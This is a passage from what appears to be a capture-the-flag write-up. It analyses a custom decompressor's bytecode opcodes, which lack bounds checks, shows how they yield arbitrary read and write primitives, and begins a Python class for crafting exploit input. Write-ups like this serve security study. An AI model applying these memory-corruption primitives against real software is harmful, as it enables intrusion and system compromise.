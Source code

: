   ```py
    return (target-out) & M64
  
  print ('{:#x}'.format(get_off(0xffffffff, 0)))

  ```

  Opcode implementation:
  ```C
  case 2: {
    // Seek
    uint64_t off = *(uint64_t*)(&in[cur]);
    cur += sizeof(off);
    out += off;
    break;
  }
  ``` 

* 3 -> LOAD(off, size). 
  Copy `size` bytes from `out - off` to `out`, increment `out` by 8.

  Opcode implementation:
  ```C
  case 3: {
    // Copy some previously written bytes
    uint64_t off = *(uint64_t*)(&in[cur]);
    cur += sizeof(off);
    uint64_t count = *(uint64_t*)(&in[cur]);
    cur += sizeof(off);
    memcpy(out, out-off, count);
    out += count;
    break;
  }
  ```

There are no bounds check in any of the operation, that gives us 2 useful primitives:
* Read What Where, abusing `SEEK+LOAD`
* Write What Where: abusing `SEEK+STORE`

I used this code to build the bytecode:
```py
IN_ADDR = 0x42069000000 # PROT R
OUT_ADDR = 0x13371337000 # PROT RW
M64 = (1<<64)-1

class CompressedFile():
    __slots__ = ['cur', 'content', 'out']

    def __init__(self, filesize):
        self.cur = 16
        self.content = b''
        self.content += p64(0x0123456789abcdef) # magic
        self.content += p64(filesize) # file size
        self.out = OUT_ADDR

    def nop(self):
        self.content += b'\x00'
        self.cur += 1

    def write(self, b: bytes):
        assert len(b) == 1

        self.content += b'\x01' + b
        self.cur += 2
        self.out += 1

    def seek(self, off):
```